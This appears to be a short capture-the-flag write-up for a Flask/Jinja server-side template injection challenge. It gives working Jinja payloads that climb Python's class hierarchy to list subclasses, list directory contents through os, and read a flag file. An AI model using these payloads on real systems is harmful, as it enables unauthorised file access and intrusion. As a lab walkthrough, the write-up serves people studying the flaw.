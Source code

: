 # Web_python_template_injection

![Screenshot from 2021-07-25 18-08-42](https://user-images.githubusercontent.com/87865134/126896955-fc1c1441-180b-4daa-9181-fa172b318e12.png)

## - Template: Flask/Jinja

## 1. Check ***Template Injection***  

![Screenshot from 2021-07-25 18-11-00](https://user-images.githubusercontent.com/87865134/126897023-cb8a1879-4247-4b7f-9448-785877ed0b59.png)

## 2. Injection code:
  - **List all class in python template:**  
    `{{().__class__.__bases__[0].__subclasses__()}}`  
  ![Screenshot from 2021-07-25 18-15-21](https://user-images.githubusercontent.com/87865134/126897148-4edb3571-1544-4d6d-afa8-bc492fa7a88e.png)

  - **List file in current directory:**  
    `{{().__class__.__bases__[0].__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}`  
   ![Screenshot from 2021-07-25 18-20-06](https://user-images.githubusercontent.com/87865134/126897262-84880017-207c-4c76-acae-f940d6d1580b.png)

  - **Read content of file fl4g:**  
    `{{().__class__.__bases__[0].__subclasses__()[40]('fl4g').read()}}`   
   ![Screenshot from 2021-07-25 18-23-19](https://user-images.githubusercontent.com/87865134/126897330-df52606d-61db-4505-9307-fb81bed61ab9.png)

 ## - Decription:
  - > category: Server-side template injection
 
 ## - Reference:
  - [Python Built-in Types](https://docs.python.org/3/library/stdtypes.html#class.__bases__)
  - [Python magic method - HackTrick](https://book.hacktricks.xyz/misc/basic-python/magic-methods)
